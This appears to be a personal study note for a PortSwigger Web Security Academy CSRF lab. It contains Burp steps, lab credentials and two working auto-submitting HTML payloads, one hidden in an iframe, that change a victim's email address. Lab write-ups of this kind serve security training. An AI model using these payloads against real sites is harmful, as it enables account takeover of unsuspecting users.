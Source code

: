 [CSRF](https://www.hackingarticles.in/understanding-the-csrf-vulnerability-a-beginners-guide/)https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery

## **1. CSRF vulnerability with no defenses**
This lab's email change functionality is vulnerable to CSRF.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    `<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
    
3. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
4. To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5. Change the email address in your exploit so that it doesn't match your own.
6. Click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit the CSRF vulnerability and change the email address
creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action - email change functionality
- Cookie based session handling - session cookie
- No unpredictable request parameters - **satisfied** (****no csrf token is present)**

![[Pasted image 20240920205439.png]]

- HTML payload (form action= "https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

